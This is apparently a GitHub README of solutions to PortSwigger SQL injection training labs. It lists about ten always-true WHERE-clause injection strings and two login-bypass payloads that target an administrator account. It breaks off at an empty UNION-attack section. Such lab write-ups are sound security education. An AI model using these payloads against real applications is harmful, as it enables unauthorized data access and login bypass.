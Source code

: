 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*
   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*


